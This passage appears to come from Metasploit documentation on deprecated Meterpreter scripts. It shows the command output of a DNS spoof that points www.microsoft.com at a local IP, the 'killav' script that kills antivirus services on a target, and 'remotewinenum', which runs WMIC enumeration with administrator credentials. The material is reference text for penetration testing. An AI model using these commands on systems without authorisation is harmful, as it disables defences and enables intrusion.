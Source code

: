 ```bash
> Adding Record for Host www.microsoft.com with IP 10.211.55.162 > Clearing the DNS Cache
```

## killav

The `killav` script is used to disable Antivirus programs running as a service on the system.

```bash
meterpreter > run killav > Killing Antivirus services on the target...
> Killing off cmd.exe...
```

## remotewinenum

The `remotewinenum` script is used to get information about the target system.

```bash
meterpreter > run remotewinenum

[!] Meterpreter scripts are deprecated. Try post/windows/gather/wmic_command.
[!] Example: run post/windows/gather/wmic_command OPTION=value [...]
Remote Windows Enumeration Meterpreter Script
This script will enumerate windows hosts in the target enviroment
given a username and password or using the credential under witch
Meterpeter is running using WMI wmic windows native tool.
Usage:

OPTIONS:

    -h        Help menu.
    -p   Password of user on target system
    -t   The target address
    -u   User on the target system (If not provided it will use credential of process) meterpreter > run remotewinenum -u administrator -p ihazpassword -t 10.211.55.128 > Saving report to /root/.msf4/logs/remotewinenum/10.211.55.128_20090711.0142 
 > Running WMIC Commands ....
 >     running command wimic environment list
 >     running command wimic share list
 >     running command wimic nicconfig list
 >     running command wimic computersystem list
 >     running command wimic useraccount list
 >     running command wimic group list
 >     running command wimic sysaccount list
 >     running command wimic volume list brief
 >     running command wimic logicaldisk get description,filesystem,name,size
 >     running command wimic netlogin get name,lastlogon,badpasswordcount
 >     running command wimic netclient list brief
 >     running command wimic netuse get name,username,connectiontype,localname
 >     running command wimic share get name,path
 >     running command wimic nteventlog get path,filename,writeable
 >     running command wimic service list brief
 >     running command wimic process list brief
 >     running command wimic startup list full
 >     running command wimic rdtoggle list
 >     running command wimic product get name,version
 >     running command wimic qfe list
```
